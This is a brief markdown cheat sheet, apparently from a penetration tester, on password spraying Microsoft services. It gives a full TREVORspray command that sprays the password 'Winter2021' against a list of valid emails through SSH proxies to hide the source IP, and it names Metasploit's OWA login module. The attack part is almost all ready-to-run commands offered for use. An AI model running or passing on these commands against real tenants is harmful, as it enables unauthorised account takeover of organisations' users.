 # Spray Microsoft 

**Description:** A list of tools and resources that I use for password spraying Microsoft products.

## Attacking Office365

A tool that I've had a large amount of success with is [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray): \
```./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt -passwords 'Winter2021' --delay 1 --no-current-ip --ssh [SSH SERVERS] -k (KEY)```

## Attacking OWA

Metasploit has a great module for attacking OWA: \
```auxiliary/scanner/http/owa_login```
